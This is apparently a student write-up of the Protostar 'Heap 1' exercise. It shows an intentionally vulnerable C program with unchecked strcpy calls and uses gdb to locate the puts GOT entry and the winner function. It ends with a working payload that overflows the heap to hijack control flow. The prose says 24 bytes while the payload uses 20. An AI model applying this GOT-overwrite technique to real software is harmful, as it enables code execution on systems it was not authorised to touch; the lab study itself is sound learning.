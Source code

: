 ###Introduction

[Heap 1](https://exploit-exercises.com/protostar/heap1/) is an example of exploit a buffer overflow in the heap. Below is the source code we must exploit

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

  

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

###Exploit

The vulnerabile lines of this source code are 
`  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);`
  Our goal will be to overwrite the function pointer address of printf and replace it with a call to the winner function.
  We can exploit this code by following these steps:
  1. Determine address of `printf` call
  2. Determine address of `winner` call
  3. Determine memory address of `i1->name` and `i2->name`. 
  4. Overwrite `i2->name` (this is a pointer) with the location of the PLT address of `printf`. Doing this will 
  cause `strcpy(i2->name, argv[2]);` to overwrite the PLT address with the address to `winner`
  
  Here is a view of the output of `disas main` in gdb ![link](https://github.com/runnersaw/SoftSysCalamitousCaribou/blob/master/Security/protostarExploits/Screen%20Shot%202017-02-23%20at%2012.20.47%20PM.png)
  1. If we run our file in GDB and then call `disas main` we can see where the structs are allocated in memory and also find
  the location of `printf`. We see when doing this that `printf` has been replaced with a call to `puts`. However, the same logic
  applies to this as it would to `printf`  
  
  `0x08048561 <main+168>:  call   0x80483cc <puts@plt> ` Shows us where puts is being called from. It is not explicitly being called
  but instead is going to an address in the PLT which then contains the address of `puts`. We can use GDB to look at the instruction 
  being called at that address in order to see the location of the PLT address. We then know this is the address we want to overwrite.  
  
  Running `x/i 0x80483cc` shows us `0x80483cc <puts@plt>: jmp *:0x8049774`  This instruction tells us that it jumps to the address 
  0x8049774 which itself is a pointer to another address. This address being the location of `puts`. 
 
  2. Finding the address of `winner` is easy. While our program is open in gdb if we run `p winner` we get the output of
  `$1 = {void (void)} 0x8048494 <winner>`. Showing us that `winner`'s address is `0x8048494`  
  
  
  3. In order to find the addresses of the pointers for the `name` fields we must first create a breakpoint in our code after they
  have been allocated. `break *main+161` will put one at the last line of code so we can see what everything has been allocated to.  
  
  We need to see what the address of the structures themselves was. To do this, lets run the program in GDB with values we know for
  both `i1` and `i2`. `r AAAAAAAA BBBBBBBB` That command will do that. We can tell by looking at our disassembled main function that
  `mallac` allocated `$esp +0x14` for `i1` and `$esp + 0x18` for `i2`. So if we inspect the memory addresses around that location we should
  be able to find the pointer to the structure. When we have this pointer we can view find the pointer to `name`
  `x/x $esp+0x14` gives us the address `0x0804a008`. Now we can inspect the memory around this address.  
  `x/2x 0x0804a008` gives us `0x00000001 0x0804a018` This shows that the `priority` field of the struct is 1 and the `name` field is
  a pointer to `0x0804a018`. Running `x/x 0x0804a018` outputs `0x41414141` confirms that the contents of `0x0804a018` are the first
  user input. We can repeat this process with the location of the second structure, `$esp + 0x18`. We find that `i2->name` is `0x0804a038`.
  
  So we now know if we write 24 extra bytes to `i1->name` whatever we write next will now be written in the location of `i2->name`.  
  
  Now comes the really confusing pointer chain. So `strcpy(i2->name, argv[2]);` will write into the contents of `argv[2]` into the address
  `i2->name` points to. So first we write the address of the PLT address for `puts` (0x8049774) into `i2->name` to using the buffer 
  overflow. Then we can use `argv[2]` to overwrite the pointer to `puts` with the memory address of `winner`.  
  
  So this command will successfully run winner `./heap1 `python -c 'print "A"*20+"\x74\x97\x04\x08"+" "+"\x94\x84\x04\x08"'``
  
  
  
